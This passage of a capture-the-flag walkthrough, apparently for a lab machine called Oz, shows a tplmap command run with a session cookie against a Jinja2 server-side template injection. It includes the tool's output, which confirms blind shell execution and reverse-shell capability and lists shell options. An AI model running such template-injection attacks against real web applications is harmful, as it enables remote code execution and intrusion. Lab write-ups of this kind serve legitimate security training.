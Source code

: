 #### Run Against Oz

I’ll start by giving it the minimum parameters to get it going:
- `-u` - the url to target
- `-X POST` - the request type
- `-d` - the data for the POST
- `-H` - headers to include, in this case, the cookie to be logged in

On doing that, it finds the engine, Jinja2 (same as I found above), and says it can do blind shell commands and file writes. For some reason it thinks it can’t do file reads, which I proved I could do above, so it’s not perfect.

```

root@kali# /opt/tplmap/tplmap.py -u http://10.10.10.96:8080/ -X POST -d "name=GBR-4045&desc=test" -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI
6MTU0Njc0MDEwMX0._vYHq7D4Cq9eSMI5UTQRC4lM9BjB0DAmvFZy0ZJ664w"
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin is testing blind injection
[+] Jinja2 plugin has confirmed blind injection
[+] Tplmap identified the following injection point:

  POST parameter: name
  Engine: Jinja2
  Injection: *
  Context: text
  OS: undetected
  Technique: blind
  Capabilities:

   Shell command execution: ok (blind)
   Bind and reverse shell: ok
   File write: ok (blind)
   File read: no
   Code evaluation: ok, python code (blind)

[+] Rerun tplmap providing one of the following options:
    --os-shell                          Run shell on the target
    --os-cmd                    Execute shell commands
    --bind-shell PORT                   Connect to a shell bind to a target port
    --reverse-shell HOST PORT   Send a shell back to the attacker's port
    --upload LOCAL REMOTE       Upload files to the server

```
